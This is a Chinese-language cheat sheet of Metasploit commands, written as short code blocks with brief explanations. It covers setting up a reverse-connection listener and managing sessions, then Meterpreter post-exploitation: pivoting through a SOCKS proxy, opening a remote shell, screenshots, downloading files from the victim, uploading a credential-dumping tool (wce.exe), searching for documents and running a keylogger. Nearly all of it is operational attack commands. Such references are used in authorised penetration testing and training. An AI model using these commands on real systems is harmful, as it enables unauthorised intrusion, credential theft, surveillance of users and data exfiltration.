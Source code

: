 #### 监听

```csharp
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false   让connection保持连接(即使一个连接退出,仍然保持listening状态)
exploit -j –z  -j(作为job开始运行)和-z(不立即进行session交换--也即是自动后台运行)
```

```bash
msf exploit(handler) > set LHOST 172.16.0.4
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j -z  
-j(计划任务下进行攻击，后台) -z(攻击完成不遇会话交互)
msf exploit(handler) > jobs  查看后台攻击任务 
msf exploit(handler) > kill <id>  停止某后台攻击任务 
msf exploit(handler) > sessions -l  (查看会话)
```

```undefined
msf exploit(handler) > sessions -i 2   选择会话
msf exploit(handler) > sessions -k 2   结束会话
```

```undefined
Ctrl+z  把会话放到后台
Ctrl+c  结束会话
```

### Meterpreter后攻击

#### 常用命令



##### 添加路由设置代理

```shell
run post/multi/manage/autoroute#in session
use auxiliary/server/socks4a
set srvhost 127.0.0.1
exploit -y
//设置proxychains

```



##### 杂

```bash
meterpreter > background  放回后台
meterpreter > exit  关闭会话
meterpreter > help  帮助信息
meterpreter > Sysinfo系统平台信息
meterpreter > screenshot  屏幕截取
meterpreter > shell  命令行shell (exit退出)
meterpreter > getlwd  查看本地目录
meterpreter > lcd  切换本地目录
meterpreter > getwd  查看目录
meterpreter > ls 查看文件目录列表
meterpreter > cd  切换目录 
meterpreter > rm  删除文件 
meterpreter > download C:\\Users\\123\\Desktop\\1.txt 1.txt 下载文件
meterpreter > upload /var/www/wce.exe wce.exe  上传文件
meterpreter > search -d c:  -f *.doc  搜索文件
meterpreter > execute -f  cmd.exe -i   执行程序/命令 
meterpreter > ps  查看进程
meterpreter > run post/windows/capture/keylog_recorder   键盘记录
```